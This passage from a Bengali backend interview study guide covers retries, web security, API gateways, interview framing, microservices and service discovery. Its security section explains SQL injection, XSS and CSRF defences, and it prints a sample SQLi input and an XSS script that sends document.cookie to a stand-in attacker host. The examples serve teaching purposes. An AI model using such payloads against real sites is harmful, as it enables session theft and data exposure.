    Check -- Yes: 3 attempts --> Fail[Fail-Fast & Return Fallback Response]
    Check -- No: Try Retry --> Calc[Calculate Delay: 2^attempt * base]
    Calc --> Jitter[Add Random Jitter: Randomize delay slightly]
    Jitter --> Wait[Wait and Retry Query]
    
    style Fail fill:#fbb,stroke:#333
    style Wait fill:#bfb,stroke:#333
```

### Senior Insight

- **Timeout Budgets (Cascading Protection):** প্রতিটি আউটগোয়িং এইচটিটিপি রিকোয়েস্টে রিড টাইমআউট ও কানেকশন টাইমআউট বসানো বাধ্যতামূলক। ডিফল্ট টাইমআউট আনলিমিটেড রাখলে একটি থার্ড-পার্টি সার্ভিস স্লো হলে অ্যাপ্লিকেশনের সব থ্রেড হ্যাং হয়ে মেমোরি শেষ করে প্রজেক্ট ডাউন করে দিবে।
- **Never Retry Non-Idempotent Operations:** কখনই কোনো নন-ইডেমপোটেন্ট অপারেশন (যেমন: `/charge-card` বা কার্ড চার্জ করা) এরর পেলেই রিট্রাই করবেন না। এতে কাস্টমার দুইবার চার্জড হতে পারে। শুধুমাত্র `GET` বা কড়া ইডেমপোটেন্ট কী সহ `POST` রিকোয়েস্টই রিট্রাই করা নিরাপদ।

### Common Mistakes

- **Retrying immediately in a loop:** কোনো গ্যাপ বা ব্যাকঅফ ছাড়া সরাসরি লুপের ভেতর ৪-৫ বার রিট্রাই করা। এতে যদি সার্ভার সাময়িকভাবে ডাউন থাকে, তবে আপনার রিকোয়েস্টের ধাক্কায় সেটি আর কখনই জেগে উঠতে পারবে না (Thundering Herd Problem).
- **Relying on Default HTTP Client timeouts:** অনেক ভাষার ডিফল্ট এইচটিটিপি ক্লায়েন্টে (যেমন Python `requests` বা Node `axios`) কোনো ডিফল্ট টাইমআউট থাকে না। এটি প্রোডাকশনে মেমোরি লিক ও হ্যাং নোড তৈরির প্রধান কারণ।

### Interview Angle

> "টাইমআউট সিস্টেমে রিসোর্স ব্লকিং ও হ্যাং অবস্থা রোধ করে রেজিলিয়েন্স বজায় রাখে। আর রিট্রাই ক্ষণস্থায়ী এরর হ্যান্ডেল করে রিলেশনশিপ বুস্ট করে। আমরা প্রোডাকশনে টাইমআউট বাজেট সেট করি, ব্যাকঅফে Exponential delay-এর সাথে Jitter যোগ করি এবং অনলি ইডেমপোটেন্ট অপারেশনের ক্ষেত্রেই কেবল রিট্রাই রান করি।"


## 38. Security Basics (XSS, CSRF, SQL Injection)

### Core Idea

সিকিউরিটি কোনো ব্যাকএন্ড প্রজেক্টের শেষ মুহূর্তের যোগ করা কোনো "Add-on" নয়; এটি সিস্টেম ডিজাইনের প্রথম দিন থেকেই একটি কোর এবং সবচেয়ে বড় আর্কিটেকচারাল দায়িত্ব।

### The Big Three Security Vulnerabilities

```mermaid
graph TD
    subgraph Vulnerabilities [The Big Three Web Security Issues]
        SQLI[1. SQL Injection: Executing malicious database queries]
        XSS[2. Cross-Site Scripting: Injecting bad scripts into client browser]
        CSRF[3. Cross-Site Request Forgery: Tricking logged-in users to submit actions]
    end
    
    style SQLI fill:#fbb,stroke:#333
    style XSS fill:#fdb,stroke:#333
    style CSRF fill:#fbb,stroke:#333
```

---

### ১. SQL Injection (SQLi)
**আক্রমণ:** ইউজার ইনপুটের ভেতর হ্যাকারের কাস্টম এসকিউএল স্ক্রিপ্ট লিখে সরাসরি ডাটাবেসে র কুয়েরি মারার মাধ্যমে ডেটা চুরি বা টেবিল ডিলিট করা।
- **ভুল কোড (Vulnerable Raw Query):**
  ```sql
  SELECT * FROM users WHERE email = '` + userInput + `';
  ```
  হ্যাকার যদি ইনপুট দেয়: `admin@ex.com' OR '1'='1` - তবে ডাটাবেস পাসওয়ার্ড ছাড়াই যেকোনো ইউজারের প্রোফাইল এক্সপোজ করে দিবে।
- **প্রতিরোধ (Parameterized Queries / Prepared Statements):**
  ইনপুট সরাসরি কোয়েরি স্ট্রিংয়ে যুক্ত না করে কুয়েরি ইঞ্জিনের প্যারামিটার হোল্ডারে বাইন্ড করতে হবে:
  ```sql
  SELECT * FROM users WHERE email = $1;
  ```
  আধুনিক ওআরএম (Sequelize, Prisma, Mongoose) ডিফল্টভাবেই প্যারামিটারাইজড কুয়েরি চালায়, যা এসকিউএলআই রুখে দেয়।

---

### ২. Cross-Site Scripting (XSS)
**আক্রমণ:** হ্যাকার যদি ইনপুট বক্সে একটি খারাপ জাভাস্ক্রিপ্ট ট্যাগ লিখে ডাটাবেসে সাবমিট করে এবং ওই ডাটা যখন অন্য কোনো সাধারণ ইউজার ব্রাউজারে রিড করে, তখন তার ব্রাউজারে ওই স্ক্রিপ্টটি রান হয়ে তার কুকি ও সেশন টোকেন হ্যাকারের সার্ভারে সেন্ড করে দেয়।
- **উদাহরণ স্ক্রিপ্ট:** `<script>fetch('https://hacker.com/steal?c=' + document.cookie)</script>`
- **প্রতিরোধ:**
  - **Context-Aware Output Encoding:** ব্রাউজারে ডেটা রেন্ডার করার সময় এইচটিএমএল এস্কেপিং (`&lt;` ইত্যাদি) ব্যবহার করা।
  - **HttpOnly Cookies:** সেনসিটিভ সেশন টোকেনগুলো কুকিতে `HttpOnly` এট্রিবিউট সহ সেভ করা যাতে ক্লায়েন্ট-সাইড জাভাস্ক্রিপ্ট দিয়ে তা রিড করা না যায়।
  - **Content Security Policy (CSP Headers):** সার্ভার রেসপন্সে সিএসপি হেডার পাঠানো যা ব্রাউজারকে বাইরের ডোমেন থেকে এক্সটার্নাল স্ক্রিপ্ট লোড করতে বাধা দেয়।

---

### ৩. Cross-Site Request Forgery (CSRF)
**আক্রমণ:** ইউজার তার ব্যাংকের সাইটে অলরেডি লগইন আছে। এই অবস্থায় সে অন্য একটি ক্ষতিকর সাইট ভিজিট করলো। ক্ষতিকর সাইটের ভেতর থাকা একটি স্ক্রিপ্ট ব্যাংক সাইটের এপিআই রাউটে (`POST /withdraw?amount=1000`) একটি ইনভিজিবল রিকোয়েস্ট ছুড়ে দিল। ব্রাউজার ব্যাংক সাইটের লগইন কুকি অটোমেটিক সাথে পাঠিয়ে দিবে এবং ব্যাংক মনে করবে ভ্যালিড ইউজারই টাকা পাঠিয়েছে।
- **প্রতিরোধ:**
  - **SameSite Cookies:** কুকিতে `SameSite=Strict` বা `Lax` ব্যবহার করা। এতে অন্য কোনো বাইরের ওয়েবসাইট থেকে রিকোয়েস্ট জেনারেট হলে ব্রাউজার ওই সাইটের কুকি পাঠাবে না।
  - **CSRF Tokens:** প্রতিটা স্টেট-চেঞ্জিং ফর্ম বা রিকোয়েস্টের সাথে একটি র্যান্ডম ওয়ান-টাইম ক্রিপ্টোগ্রাফিক টোকেন সেন্ড করা যা শুধুমাত্র আপনার ফ্রন্টএন্ড অ্যাপই জানে।

---

### Senior Insight (Modern Encryption Rules)

1. **Argon2 or bcrypt for Password Hashing:** পাসওয়ার্ড কখনই এমডি-৫ বা এসএইচএ-২৫৬ দিয়ে প্লেইন হ্যাশ করবেন না। এগুলো GPU দিয়ে রেইনবো টেবিল অ্যাটাক করে ভেঙে ফেলা সহজ। পাসওয়ার্ড হ্যাশিংয়ের জন্য আধুনিক কড়া **Argon2id** বা **bcrypt** (with high work factor) ব্যবহার করা উচিত যা Brute-force প্রতিরোধী।
2. **Never Trust Frontend Validations:** ফ্রন্টএন্ডে যে ডাটা স্যানিটাইজ বা ভ্যালিডেট করছেন, তা হ্যাকাররা পোস্টম্যান বা কার্ল দিয়ে বাইপাস করতে পারে। ব্যাকএন্ড এপিআই কন্ট্রোলারে অবধারিতভাবে প্রতিটা ফিল্ড কড়া ভ্যালিডেশন (using Joi / Zod) করতে হবে।

### Common Mistakes

- **Logging Sensitive Payload:** লগে কার্ডের পিন বা পাসওয়ার্ড প্রিন্ট করা।
- **Exposing full error stack trace to client:** এপিআই এরর রেসপন্সে ডাটাবেসের সম্পূর্ণ কুয়েরি বা ওআরএম এরর স্ট্যাক ট্রেস (`500 Internal Server Error`) ক্লায়েন্টকে পাঠানো। এটি হ্যাকারদের ডাটাবেসের টেবিল ও স্কিমা আর্কিটেকচার বুঝতে সাহায্য করে।

### Interview Angle

> "ব্যাকএন্ড সিকিউরিটির কোর প্রিন্সিপল হলো 'Never Trust User Input'। আমরা SQL Injection রুখতে Parameterized query এবং Prepared statements ব্যবহার করি; XSS রুখতে HttpOnly কুকি, Context-aware escaping ও Content Security Policy (CSP) মেইনটেইন করি; আর CSRF প্রতিরোধে SameSite কুকি ও অ্যান্টি-সিএসআরএফ টোকেন ব্যবহার করি। পাসওয়ার্ড স্টোরেজে আমরা Argon2/bcrypt এবং ইনপুট ভ্যালিডেশনে Zod ব্যবহার করি।"


## 39. API Gateway Role

### Core Idea

**API Gateway (এপিআই গেটওয়ে):** হলো আমাদের ইন্টারনাল মাইক্রোসার্ভিস বা ব্যাকএন্ড আর্কিটেকচারের একমাত্র প্রধান প্রবেশদ্বার (Single Entry Point)। ক্লায়েন্ট সরাসরি ভেতরের কোনো মাইক্রোসার্ভিসের ডোমেইন বা আইপিতে রিকোয়েস্ট পাঠায় না; সে গেটওয়েতে হিট করে এবং গেটওয়ে রিকোয়েস্টের পাথ ও রুলস চেক করে সঠিক সার্ভিস নোডে রাউট করে দেয়।

### Single Entry Point Architecture

```mermaid
graph TD
    Client[Web/Mobile Client] -->|HTTP / JSON| GW[API Gateway]
    
    subgraph Cross_Cutting [Gateway Cross-cutting Concerns]
        GW --> Auth[1. Authentication & API Key check]
        GW --> Rate[2. Global Rate Limiting]
        GW --> SSL[3. SSL Termination]
    end

    subgraph Internal_Microservices [Private Virtual Network]
        GW -->|Route: /api/users| Users[User Service: Node.js]
        GW -->|Route: /api/orders| Orders[Order Service: Go]
        GW -->|Route: /api/payments| Payments[Payment Service: Java]
    end
    
    style GW fill:#fbb,stroke:#333
    style Users fill:#bfb,stroke:#333
    style Orders fill:#bfb,stroke:#333
    style Payments fill:#bfb,stroke:#333
```

### Core Responsibilities

1. **Request Routing:** ইউআরএল পাথ চেক করে সঠিক কন্টেইনার আইপিতে ট্রাফিক ডাইরেক্ট করা (যেমন: `/orders` -> Order Service).
2. **SSL Termination:** গেটওয়েতে এইচটিটিপিএস ডিক্রিপ্ট করা এবং ইন্টারনাল নেটওয়ার্কে লাইটওয়েট এইচটিটিপি-তে সার্ভিসগুলোর মাঝে মেসেজ পাঠানো, যা মাইক্রোসার্ভিসের সিপিইউ লোড কমায়।
3. **Global Rate Limiting:** কোনো ডিরেক্ট আইপি বা ইউজার যেন সিস্টেমের মেইন সার্ভারগুলো একসাথে অতিরিক্ত হিট করে স্লো করতে না পারে।
4. **Authentication & Validation:** ইনকামিং টোকেন (JWT) বা এপিআই কী গেটওয়ে স্তরেই প্রথমে চেক করা। ইনভ্যালিড টোকেন হলে গেটওয়ে থেকেই ইউজারকে ৪০১ এরর দিয়ে রিজেক্ট করা হয়, যার ফলে ইন্টারনাল সার্ভিস অপ্রয়োজনীয় প্রসেসিং থেকে বাঁচে।
5. **Protocol Translation:** বাইরে থেকে ক্লায়েন্ট সাধারণ REST/HTTP কল করলেও গেটওয়ে ইন্টারনালি ব্যাকএন্ড সার্ভিসের সাথে ফাস্ট **gRPC** প্রোটোকলে কমিউনিকেট করতে পারে।
6. **Request Aggregation (BFF - Backend For Frontend):** মোবাইল হোমপেজ লোড করতে ইউজার, অর্ডার এবং প্রোফাইল ৩টি সার্ভিসের ডেটা লাগে। ক্লায়েন্ট ৩বার রিকোয়েস্ট না করে গেটওয়েতে ১টি রিকোয়েস্ট পাঠাবে, গেটওয়ে ভেতরের ৩টি সার্ভিস একসাথে কুয়েরি করে ডেটা মার্জ করে ১টি কমপ্লিট জেসন রেসপন্স ক্লায়েন্টকে রিটার্ন করবে।

### Senior Insight (Do Not Overstuff the Gateway)

- **Keep Gateway Lightweight:** সবচেয়ে বড় সিনিয়র ডিজাইন রুল হলো এপিআই গেটওয়েকে কখনও "Monolith Database Handler" বানানো যাবে না। গেটওয়েতে জটিল বিজনেস লজিক বা সরাসরি ডাটাবেস কুয়েরি লজিক ঢোকানো একটি চরম আর্কিটেকচারাল পাপ। গেটওয়ে শুধুমাত্র ক্রস-কাটিং কনসার্ন (Cross-cutting Concerns) যেমন রাউটিং ও ফিল্টারিং হ্যান্ডেল করবে, কোর লজিক সার্ভিস লেয়ারেই থাকবে।
- **Popular Gateways:** প্রোডাকশন রেডি পপুলার গেটওয়েগুলোর মধ্যে **Kong Gateway** (Lua based), **Apigee**, **AWS API Gateway**, এবং **Envoy Proxy** অন্যতম।

### Common Mistakes

- **Treating internal network as 100% secure after gateway auth:** গেটওয়ে দিয়ে একবার অথেনটিকেশন চেক হলেই সব ইন্টারনাল মাইক্রোসার্ভিস একে অপরকে ট্রাস্ট করা। একটি হ্যাক হলে সম্পূর্ণ ক্লাস্টার হ্যাক হবে। এর জন্য ডিস্ট্রিবিউটেড ক্লাস্টারে **Zero-Trust Network** বা **mTLS (Mutual TLS)** ও সেন্ট্রাল অথরাইজেশন সার্ভিস ব্যবহার করতে হবে।
- **Single Point of Failure (SPOF):** গেটওয়ের নোড সংখ্যা মাত্র ১টি রাখা। গেটওয়ে ক্র্যাশ করলে পুরো সার্ভিস ব্লক হবে, তাই গেটওয়ে লেভেলেও মিনিমাম ৩টি হাই-স্কেল নোড ও ফ্রন্ট লোড ব্যালেন্সার বসাতে হবে।

### Interview Angle

> "API Gateway আমাদের মাইক্রোসার্ভিসের সিকিউর গেট বা সিঙ্গেল এন্ট্রি পয়েন্ট হিসেবে কাজ করে, যা রাউটিং, গ্লোবাল রেট লিমিটিং, SSL termination, প্রোটোকল কনভার্সন ও সেন্ট্রাল অথেনটিকেশন হ্যান্ডেল করে। আমরা গেটওয়েতে কোনো বিজনেস লজিক রাখি না যাতে এটি সুপার-লাইটওয়েট ও পারফরম্যান্ট থাকে এবং হাই-এভেইলেবিলিটি নিশ্চিত করতে গেটওয়ে নোডগুলোকে ক্লাউড স্কেল ও জিরো-ট্রাস্ট mTLS ম্যাপ করি।"


## 40. Backend Interview Mental Model

### Core Idea

**Backend Interview Mental Model (ব্যাকএন্ড ইন্টারভিউ মেন্টাল মডেল):** হলো একজন সিনিয়র সফটওয়্যার ইঞ্জিনিয়ারের চিন্তা করার এমন একটি পদ্ধতি বা ফ্রেমওয়ার্ক, যার মাধ্যমে সে সিস্টেম ডিজাইন বা জটিল টেকনিক্যাল আলোচনায় অংশ নেয়। জুনিয়ররা সাধারণত প্রশ্নের উত্তরে শুধু সংজ্ঞা (Definitions) এবং কোডের কথা বলে; অপরদিকে সিনিয়ররা উত্তর সাজায় আর্কিটেকচারাল ট্রেড-অফ (Trade-offs), সিস্টেমের সীমাবদ্ধতা, প্রোডাকশন লেভেলের ব্যর্থতা (Production Failures) এবং সেফটি মেটিগেশনকে কেন্দ্র করে।

### Senior vs Junior Communication Blueprint

```mermaid
graph TD
    subgraph Junior [Junior Engineer Approach]
        J1[Concept Definition] --> J2[Obvious Happy Path]
        J2 --> J3["'Always use this tool' (Absolute bias)"]
    end

    subgraph Senior [Senior Engineer Approach - 3D Thinking]
        S1[Core Definition & Pain Point] --> S2[Under the hood mechanics]
        S2 --> S3[Architectural Trade-offs & PACELC]
        S3 --> S4[Real-world Production Pitfalls & Blast-Radius]
        S4 --> S5[Proactive Mitigations & SLO Budgets]
    end
    
    style Junior fill:#fbb,stroke:#333
    style Senior fill:#bfb,stroke:#333
```

### The 6-Step Response Structure (ইন্টারভিউতে কথা বলার ৬-ধাপ)

ইন্টারভিউতে যেকোনো ব্যাকএন্ড কনসেপ্ট (যেমন ক্যাশিং বা মেসেজ কিউ) ব্যাখ্যা করার সময় অবধারিতভাবে নিচের কাঠামোটি অনুসরণ করতে হবে:

1. **Definition (সুনির্দিষ্ট সংজ্ঞা):** কনসেপ্টটি কী তা ১-২ বাক্যে সংক্ষেপে বলা।
2. **The "Why" (কেন দরকার):** এটি সিস্টেমে কোন বড় সমস্যা বা পেইন-পয়েন্ট দূর করছে তা স্পষ্ট করা।
3. **How it works (কীভাবে কাজ করে):** এর ব্যাকগ্রাউন্ড ম্যাকানিজম বা ডেটা ফ্লো সংক্ষেপে বোঝানো।
4. **Trade-offs (ট্রেড-অফ):** এটি সিস্টেমে কী কী সুবিধা দিচ্ছে এবং এর বদলে আমাদের কী কী হারাতে হচ্ছে (যেমন: Speed vs Consistency)।
5. **Production Pitfalls (বাস্তব সমস্যা):** প্রোডাকশন ট্রাফিকে এটি কেন এবং কখন ক্র্যাশ করতে পারে (যেমন: Cache Stampede, Thundering Herd).
6. **Senior Mitigation (প্রতিরোধমূলক ব্যবস্থা):** সেই দুর্ঘটনা এড়াতে আপনি কী কী প্রোএকটিভ পদক্ষেপ নিবেন (যেমন: Jitter, DLQ, Circuit Breaker).

### Real-World Concept Demonstration: Caching Example

নিচে ক্যাশিং (Caching) এন্ডপয়েন্ট নিয়ে কথা বলার সময় জুনিয়র ও সিনিয়রের বক্তব্যের রিয়েল লাইফ তুলনা দেওয়া হলো:

- **Junior Answer:**
  > "ক্যাশিং মানে হলো দ্রুত রেসপন্স পাওয়ার জন্য ডেটা রেডিসে সেভ করে রাখা। এতে ডাটাবেস লোড কমে এবং ইউজার ফাস্ট এক্সপেরিয়েন্স পায়। আমরা সবসময় ক্যাশ ইউজ করব।"
- **Senior Answer:**
  > "ক্যাশিং আমাদের এপিআই লেটেন্সি ও ডাটাবেস কোয়েরি চাপ চরম কমায়। তবে ক্যাশিং নিয়ে কাজ করার সবচেয়ে বড় ট্রেড-অফ হলো **Cache Invalidation** প্রবলেম ও স্টেল ডেটা রিডের রিস্ক। প্রোডাকশনে হাই-ট্রাফিকে হঠাৎ ক্যাশ এক্সপায়ার হলে **Cache Stampede** ঘটে ডাটাবেস ক্র্যাশ করতে পারে। এটি মিটিগেট করতে আমরা ক্যাশ টিটিএল-এর সাথে **Random Jitter** যোগ করি, ব্যাকগ্রাউন্ডে **Singleflight / Cache Re-warming cron** ইন্টিগ্রেট করি এবং ডেটা টাইপ অনুযায়ী ক্যাশ-অ্যাসাইড বা রাইট-থ্রু স্ট্র্যাটেজি চুজ করি।"

### Senior Insight (The Trade-Off Mindset)

- **There are no silver bullets, only trade-offs:** ব্যাকএন্ড ইঞ্জিনিয়ারিংয়ে কোনো নিখুঁত "একমাত্র সেরা" প্রযুক্তি বা প্যাটার্ন বলে কিছু নেই। ডাটাবেস স্কেলিং করতে গিয়ে শার্ডিং বা নো-এসকিউএল চুজ করলে ডিরেক্ট রিলেশনাল জয়েন কুরিয়ার ক্ষমতা বিসর্জন দিতে হবে; আবার রিড স্পিড অপটিমাইজ করলে ইভেনচুয়াল কনসিস্টেন্সি মেনে নিতে হবে।
- **Proactive Security & Observability:** যেকোনো নতুন আর্কিটেকচারাল ডিসিশনে সর্বদা ৩টি গোল্ডেন পয়েন্ট মাথায় রাখুন:
  - **Scale:** এই সিস্টেম ১০ গুণ ট্রাফিক বাড়লে কীভাবে স্কেল করবে?
  - **Resilience:** এই সার্ভিসের পাশের কন্টেইনার ফেইল করলে কীভাবে ফলব্যাক হবে?
  - **Audit Logs:** এই সিস্টেমে বাগ দেখা দিলে আমরা প্রপারলি ট্রেস (Tracing/Logs) করতে পারব তো?

### Common Interview Mistakes

- **Giving Absolute / Biased Answers:** "মঙ্গোডিবি সবসময় পোস্টগ্রেসের চেয়ে বেস্ট" বা "মাইক্রোসার্ভিস সবসময় মনোলিথের চেয়ে ভালো"। এ ধরনের বক্তব্য সিনিয়ার লেভেলের ম্যাচিউরিটির অভাব প্রকাশ করে।
- **Ignoring Production-level failures:** ইন্টারভিউয়ারকে বোঝাতে না পারা যে লাইভ সার্ভারে ক্যাশ নোড বা মেসেজ কিউ হুট করে ডাউন হলে সিস্টেমে তার চেইন রিঅ্যাকশন কী হবে (Blast radius) এবং ব্যাকআপ প্ল্যান কী।

### Interview Angle

> "সিনিয়র ব্যাকএন্ড ইঞ্জিনিয়ার হিসেবে ইন্টারভিউতে যেকোনো আর্কিটেকচারাল প্রশ্নের উত্তরে আমার মূল ফোকাস থাকে 'Trade-off Analysis' এবং 'Production Resilience'। আমি সবসময় CAP/PACELC থিওরেমের সাথে সিস্টেমের সীমাবদ্ধতা ম্যাপ করি, ক্ষণস্থায়ী এরর এড়াতে Circuit Breaker ও Retries designed backoff রাখি এবং ডেটা নিরাপত্তার প্রতিটি স্তরে Zero-trust security, structured monitoring ও audit tracing নিশ্চিত করি।"


## 41. Microservices vs Monolith

### Core Idea

- **Monolith Architecture:** পুরো সিস্টেম বা অ্যাপ্লিকেশন একটি একক কোডবেস (Single Codebase) এবং ডেপ্লয়মেন্ট ইউনিট হিসেবে তৈরি হয়। পুরো অ্যাপ একই ডাটাবেস শেয়ার করে।
- **Microservices Architecture:** সিস্টেমকে কতগুলো ছোট ছোট, স্বায়ত্তশাসিত (Autonomous), এবং স্বাধীনভাবে ডেপ্লয়যোগ্য (Independently Deployable) সার্ভিসে ভাগ করা হয়। প্রতিটি সার্ভিসের নিজস্ব আলাদা ডাটাবেস (Database-per-Service) থাকে।

### ডাটাবেস ও সার্ভিস আর্কিটেকচার পার্থক্য

```mermaid
graph TD
    subgraph Monolith [Monolith: Unified Architecture]
        Client_M[Client] --> MonolithApp[Monolith Codebase: Users, Orders, Payments]
        MonolithApp --> SharedDB["(Shared Database)"]
    end

    subgraph Microservices [Microservices: Distributed Architecture]
        Client_MS[Client] --> Gateway[API Gateway]
        Gateway --> UserService[User Service]
        Gateway --> OrderService[Order Service]
        Gateway --> PaymentService[Payment Service]
        
        UserService --> UserDB["(User DB)"]
        OrderService --> OrderDB["(Order DB)"]
        PaymentService --> PaymentDB["(Payment DB)"]
    end
    
    style Monolith fill:#eff,stroke:#333
    style Microservices fill:#ffe,stroke:#333
```

### Monolith vs Microservices Trade-off Table

| বৈশিষ্ট্য | Monolith | Microservices |
| :--- | :--- | :--- |
| **ডেভেলপমেন্ট** | সহজ এবং ফাস্ট স্টার্ট। কোডবেস এক জায়গায় থাকায় ট্র্যাকিং ইজি। | ডিস্ট্রিবিউটেড কমপ্লিক্সিটি, টিমগুলোর আলাদা আলাদা সার্ভিস ও ভেলোসিটি। |
| **ডাটাবেস** | **Shared DB:** জয়েন কুয়েরি ও ACID ট্রানজেকশন অত্যন্ত সহজ। | **Database-per-Service:** জয়েন অসম্ভব, eventual consistency ফেস করতে হয়। |
| **স্কেলিং** | পুরো অ্যাপ একসাথে স্কেল করতে হয়। কস্টলি। | শুধুমাত্র হাই-লোড সার্ভিসটি (যেমন Payment) আলাদাভাবে স্কেল করা যায়। এফিশিয়েন্ট। |
| **ডিপ্লয়মেন্ট** | ১ লাইন কোড চেঞ্জ করলেও পুরো অ্যাপ বিল্ড ও ডিপ্লয় করতে হয়। | প্রতিটি সার্ভিস স্বাধীনভাবে যেকোনো সময় ডেপ্লয় করা যায় (Zero-downtime). |
| **টেকনোলজি** | পুরো কোডবেস একই ল্যাঙ্গুয়েজ ও ফ্রেমওয়ার্কে বন্দি। | প্রতিটি সার্ভিসের জন্য আলাদা বেস্ট ল্যাঙ্গুয়েজ (যেমন AI-তে Python, API-তে Go) চুজ করা যায়। |

### Senior Insight (The Golden Rule of Microservices)

> "Don’t build microservices unless your organization size or traffic demands it." — Senior Architect Guild

মাইক্রোসার্ভিসের বড় চ্যালেঞ্জ প্রযুক্তিগত নয়, বরং সাংগঠনিক ও ডিস্ট্রিবিউটেড কমপ্লিক্সিটি।
- **Database-per-Service Isolation:** প্রতিটি সার্ভিসের ডাটাবেস সম্পূর্ণ প্রাইভেট হতে হবে। অর্ডার সার্ভিস কখনোই সরাসরি ইউজার সার্ভিসের ডাটাবেসে রিড/রাইট কুয়েরি মারতে পারবে না। ডাটা দরকার হলে অবশ্যই নেটওয়ার্ক কল (gRPC/REST) করতে হবে অথবা ইভেন্ট-ড্রিভেন আর্কিটেকচার ব্যবহার করতে হবে।
- **Distributed Transactions:** মাইক্রোসার্ভিসে একাধিক সার্ভিস জুড়ে ট্রানজেকশন সফল করা কঠিন। পেমেন্ট সাকসেসফুল অথচ অর্ডার ফেইল হলে রোলব্যাক করার জন্য **Saga Pattern (Orchestration/Choreography)** বা ট্রানজেকশনাল আউটবক্স প্যাটার্ন ব্যবহার করতে হয়।

### Common Mistakes

- **Shared Database Microservices (Distributed Monolith):** কোড আলাদা করে সব সার্ভিস একই ডাটাবেসে সরাসরি কানেক্ট করে রাখলে সেটি মোটেও মাইক্রোসার্ভিস নয়, বরং একটি "ডিস্ট্রিবিউটেড মনোলিথ" যা মনোলিথ ও মাইক্রোসার্ভিস উভয়েরই খারাপ দিকগুলো সিস্টেমে নিয়ে আসে।
- **Starting with Microservices on Day 1:** স্টার্টআপের শুরুতে ট্রাফিকের চরিত্র না বুঝেই মাইক্রোসার্ভিস শুরু করলে ডেভেলপমেন্ট ভেলোসিটি জিরো হয়ে প্রজেক্ট ফেইল করতে পারে। প্র্যাগম্যাটিক এপ্রোচ হলো প্রথমে একটি **Modular Monolith** দিয়ে শুরু করা এবং পরবর্তীতে বাউন্ডারি বুঝে সার্ভিস আলাদা করা।

### Interview Angle

> "Monolith সহজ ডেভেলপমেন্ট ও কড়া ডাটা কনসিস্টেন্সির জন্য চমৎকার। অপরদিকে Microservices স্কেলিং, স্বাধীন ডেপ্লয়মেন্ট ও লার্জ অর্গানাইজেশনের টিম ভেলোসিটির জন্য আইডিয়াল। মাইক্রোসার্ভিস ডিজাইন করার সময় অবশ্যই Database-per-Service আইসোলেশন নিশ্চিত করতে হবে এবং ডিস্ট্রিবিউটেড ট্রানজেকশনের ক্ষেত্রে Saga Pattern ও Event-driven Communication ইমপ্লিমেন্ট করতে হবে।"


## 42. Service Discovery

### Core Idea

**Service Discovery (সার্ভিস ডিসকভারি):** ডিস্ট্রিবিউটেড মাইক্রোসার্ভিস আর্কিটেকচারে কন্টেইনারগুলো অনবরত ডাইনামিক্যালি স্কেল আপ/ডাউন বা রিপ্লেস হতে থাকে, যার ফলে তাদের ফিজিক্যাল আইপি অ্যাড্রেস ও পোর্ট প্রতিনিয়ত পরিবর্তনশীল। সার্ভিস ডিসকভারি হলো এমন একটি অটোমেটেড মেকানিজম বা ডিরেক্টরি যা চলমান প্রতিটি সার্ভিস ইন্সট্যান্সের অবস্থান ও আইপি-পোর্ট অটোমেটিক ট্র্যাক করে যাতে অন্যান্য সার্ভিসগুলো একে অপরকে নেটওয়ার্কে খুঁজে পেতে পারে।

### Discovery Models: Client-Side vs Server-Side

```mermaid
sequenceDiagram
    autonumber
    actor Client as Order Service
    participant Registry as Service Registry (Consul)
    participant Payment as Payment Service Node

    rect rgb(240, 255, 240)
        Note over Client, Registry: Client-Side Discovery
        Client->>Registry: 1. Get healthy nodes for "payment-service"
        Registry-->>Client: Returns Node List [10.0.1.5:8080, 10.0.1.6:8080]
        Client->>Client: 2. Run client-side Load Balancing (e.g. Round Robin)
        Client->>Payment: 3. Make direct HTTP call to [10.0.1.5:8080]
    end

    rect rgb(255, 240, 245)
        Note over Client, Registry: Server-Side Discovery (e.g. AWS ALB/Kubernetes Service)
        Client->>Registry: 1. Call standard Load Balancer URL (e.g. payment.prod.local)
        Note over Registry: Registry/LB routes automatically to healthy node
        Registry->>Payment: 2. Forward request to Node [10.0.1.6:8080]
    end
```

### Discovery Models Breakdown

1. **Client-Side Discovery:** ক্লায়েন্ট নিজেই সেন্ট্রাল **Service Registry** (যেমন: HashiCorp Consul, Netflix Eureka) থেকে হেলদি নোডের আইপি নিয়ে নিজের লোকাল অ্যালগরিদমে লোড ব্যালেন্সিং করে সরাসরি নোডে রিকোয়েস্ট পাঠায়।
2. **Server-Side Discovery:** ক্লায়েন্ট একটি ফিক্সড লোড ব্যালেন্সার বা গেটওয়েতে রিকোয়েস্ট পাঠায়। লোড ব্যালেন্সারটি ইন্টারনাল সার্ভিস রেজিস্ট্রি চেক করে হেলদি কন্টেইনার নোডে রিকোয়েস্ট ফরোয়ার্ড করে দেয় (যেমন: AWS ALB, Kubernetes Service ClusterIP)।

### Senior Insight

- **Liveness vs Readiness Probes:** সার্ভিস ডিসকভারিতে সবচেয়ে বড় ভূমিকা রাখে হেলথ চেক (Health Checks)। কন্টেইনার সচল থাকা মানেই কিন্তু সে কুয়েরি প্রসেস করার জন্য রেডি না।
  - **Liveness Probe:** নোডটি বেঁচে আছে কিনা (কিল করতে হবে কিনা)।
  - **Readiness Probe:** নোডটি সম্পূর্ণ ইনিশিয়ালাইজ হয়ে ডাটাবেস ও মেমোরি কানেকশন সহ রিকোয়েস্ট নেওয়ার জন্য প্রস্তুত কিনা। সার্ভিস এজেন্টে শুধুমাত্র **Readiness Probe** পাস হওয়া নোডগুলোতেই ট্রাফিক পাঠানো উচিত।
- **DNS TTL gotchas:** কুবারনেটিসের বাইরে সাধারণ ডিএনএস রাউটিং ব্যবহার করলে **TTL (Time to Live)** ভ্যালু জিরো বা অত্যন্ত কম রাখতে হবে। অন্যথায় নোড ডাউন হয়ে নতুন নোড তৈরি হলেও ক্লায়েন্ট পুরনো আইপি ক্যাশে রেখে দিবে এবং এপিআই ফেল করবে।

### Common Mistakes

- **Hardcoding Server IPs in configuration files:** ফাইল বা এনভায়রনমেন্ট ভেরিয়েবলে লোকাল বা প্রাইভেট আইপি সরাসরি হার্ডকোড করে রাখা। এটি মাইক্রোসার্ভিস স্কেলিংয়ের মূল ফিলোসফির পরিপন্থী।
- **Shallow health check endpoints:** হেলথ চেক এন্ডপয়েন্টে (`/health`) শুধুমাত্র `200 OK` রিটার্ন করা কিন্তু ইন্টারনালি ডাটাবেস বা ক্যাশ কানেকশন ডেড হয়ে বসে থাকা। হেলথ চেকে অবশ্যই ডিপেন্ডেন্সি হেলথ ভেরিফাই করতে হবে।

### Interview Angle

